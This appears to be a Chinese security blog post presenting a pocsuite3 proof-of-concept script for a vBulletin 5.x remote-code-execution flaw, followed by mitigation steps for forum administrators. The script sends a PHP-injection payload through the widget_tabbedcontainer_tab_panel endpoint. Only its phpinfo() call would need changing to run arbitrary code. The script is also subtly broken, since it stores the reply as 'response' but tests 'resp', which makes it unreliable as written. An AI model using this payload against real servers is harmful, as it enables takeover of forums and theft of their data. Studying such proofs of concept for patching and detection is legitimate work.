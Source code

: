 ```yaml
---
title:vBulletin 5.x RCE.py
categories: [dev]
comments: true
---
```


#### 参考链接：利用vBulletin：“补丁失败的故事”
> https://blog.exploitee.rs/2020/exploiting-vbulletin-a-tale-of-patch-fail/


```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pocsuite3.api import requests
from pocsuite3.api import register_poc
from pocsuite3.api import Output, POCBase, logger
from re import findall
import ssl

ssl._create_default_https_context = ssl._create_unverified_context

class TestPOC(POCBase):
    vulID = ''
    version = '5.x'
    author = ['南方有梦']
    vulDate = ''
    createDate = ''
    updateDate = ''
    references = ['']
    name = 'vBulletin 5.x RCE'
    appPowerLink = ''
    appName = ''
    appVersion = ''
    vulType = ''
    desc = '''
    '''

    def _verify(self):
        result = {}
        target = '{u}/ajax/render/widget_tabbedcontainer_tab_panel'.format(u=self.url)
        data = "subWidgets[0][template]=widget_php&subWidgets[0][config][code]=phpinfo();"
        try:
            response = requests.get(url=target, data=data, verify=False)
            if resp.status_code == 200 and 'PHP API' in resp.text:
                result['VerifyInfo'] = {}
                result['VerifyInfo']['URL'] = target
        except Exception as e:
            #print(e)
            logger.error(f"connect target '{self.url} failed!'")
        return self.parse_attack(result)

    def _attack(self):
        return self._verify()

    def parse_attack(self, result):
        output = Output(self)
        if result:
            output.success(result)
        else:
            output.fail('Internet nothing returned')
        return output


register_poc(TestPOC)
```
### 漏洞检测脚本 Github地址：

> https://github.com/hackgov/article/blob/master/vBulletin%205.x%20RCE.py
>
> #### 基于POCsuite3框架运行


#### 修复建议
`此修补程序将禁用您论坛中的PHP小部件，并可能破坏某些功能，但在vBulletin发布补丁之前，将使您免受攻击。`

> 转到vBulletin管理员控制面板。
> 单击左侧菜单中的“设置”，然后单击下拉菜单中的“选项”。
> 选择“常规设置”，然后单击“编辑设置”
> 查找“禁用PHP，静态HTML和广告模块呈现”，设置为“是”，点击“保存”
> Godspeed和Happy DEFCON安全模式
